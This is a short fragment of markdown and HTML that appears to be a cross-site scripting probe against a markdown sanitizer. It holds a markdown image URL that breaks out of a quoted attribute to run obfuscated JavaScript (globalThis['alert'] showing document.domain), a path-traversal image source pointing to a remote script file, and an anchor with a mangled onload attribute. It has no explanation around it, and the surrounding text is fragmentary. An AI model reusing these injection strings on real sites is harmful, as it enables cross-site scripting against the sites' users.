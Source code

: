 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js" type="text/javascript">
<a onloa.d=window.location>aaa</a>
